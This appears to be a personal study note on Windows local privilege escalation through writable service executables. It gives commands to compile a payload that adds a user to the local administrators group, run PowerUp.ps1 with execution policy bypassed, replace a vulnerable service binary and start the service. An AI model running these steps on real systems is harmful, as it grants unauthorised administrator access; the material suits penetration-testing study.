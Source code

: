 ```yaml
---
title: Executable Files
updated: 2023-10-10 11:05:39Z
created: 2023-10-03 02:12:13Z
latitude: -35.28093680
longitude: 149.13000920
altitude: 0.0000
---
```


# Executable Files
Pre-requisite:
Open **windows_service.c** and replace the command used by the system() function to: `cmd.exe /k net localgroup administrators <user> /add`
Compile to **file.exe**:
`x86_64-w64-mingw32-gcc windows_service.c -o file.exe`

## PowerUp.ps1
1. Open PowerShell
`cmd> powershell -ep bypass`
2. Import PowerUp module
`. ./PowerUp.ps1`
3. Run `Invoke-AllChecks`
4. Checking service executable and argument permissions...and find the **ServiceName** and the File location
5. Replace file with writable permissions (eg **vul_file.exe**) with compiled **file.exe**
6. `sc start <ServiceName>`


